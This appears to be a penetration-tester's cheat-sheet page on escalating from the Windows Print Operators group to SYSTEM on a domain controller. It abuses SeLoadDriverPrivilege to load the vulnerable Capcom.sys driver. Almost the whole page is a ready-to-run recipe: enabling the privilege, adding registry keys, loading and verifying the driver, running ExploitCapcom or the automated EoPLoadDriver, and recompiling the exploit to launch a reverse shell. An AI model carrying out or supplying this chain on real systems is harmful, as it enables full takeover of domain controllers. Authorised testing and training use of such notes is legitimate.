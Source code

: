 # Print Operators

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Print Operators**</mark> is another highly privileged group, which grants its members the <mark style="color:green;">`SeLoadDriverPrivilege`</mark>, rights to <mark style="color:purple;">**manage, create, share, and delete printers**</mark> connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

## <mark style="color:yellow;">Capcom Driver Abuse</mark>

The plan is to use <mark style="color:green;">**EnableSeLoadDriverPrivilege**</mark> script [**\[LINK\]**](https://github.com/3gstudent/Homework-of-C-Language/blob/master/EnableSeLoadDriverPrivilege.cpp) to enable <mark style="color:green;">`SeLoadDriverPrivilege.`</mark> Then we need to load the <mark style="color:green;">**Capcom.sys**</mark> [**\[LINK\]**](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver, which was used originally as a anti-cheat for Capcom games, but it also have functionality to allow any user to execute shellcode with <mark style="color:green;">`SYSTEM`</mark> privileges. Then we make a Registry key and edit it for Capcom.sys to be seen. Then we check it with <mark style="color:green;">**DriverView**</mark> [**\[LINK\]**](http://www.nirsoft.net/utils/driverview.html). After we verified that info, we are using <mark style="color:green;">**ExploitCapcom**</mark> script [**\[LINK\]**](https://github.com/tandasat/ExploitCapcom) to get SYSTEM shell.

<mark style="color:orange;">**OR**</mark> we can change code of <mark style="color:green;">**ExploitCapcom**</mark> to make a reverse shell for us (if we have no GUI access).

#### Check privs

```powershell
C:\> whoami /priv
```

#### EnableSeLoadPrivilege

```powershell
C:\> .\EnableSeLoadDriverPrivilege.exe
```

#### Add Reference to Driver

You need to download Capcom.sys to <mark style="color:green;">`C:\temp`</mark>. Issue the commands below to add a reference to this driver under our <mark style="color:blue;">**HKEY\_CURRENT\_USER**</mark> tree.

```powershell
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\temp\Capcom.sys"

C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

#### Verify Driver

```powershell
PS C:\> .\DriverView.exe /stext drivers.txt

PS C:\> cat drivers.txt | Select-String -pattern Capcom
```

#### Exploiting

```powershell
PS C:\> .\ExploitCapcom.exe
```

***

#### Same stuff but automated

We can use <mark style="color:green;">**EoPLoadDriver**</mark> [**\[LINK\]**](https://github.com/umiterkol/EoPLoadDriver_Release/releases) script to automate process of enabling the privilege, creating the registry key, and executing <mark style="color:green;">`NTLoadDriver`</mark> to load the driver by using this command.

```powershell
C:\> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\temp\Capcom.sys
```

```
PS C:\> .\ExploitCapcom.exe
```

***

### NO GUI

For that we need to find ExploitCapcom.cpp. change string below and recompile.

```cpp
B E F O R E : TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");

A F T E R : TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

***

### Cleanup

For a little clean up we could just delete registry key we made before.

```powershell
C:\> reg delete HKCU\System\CurrentControlSet\Capcom
```
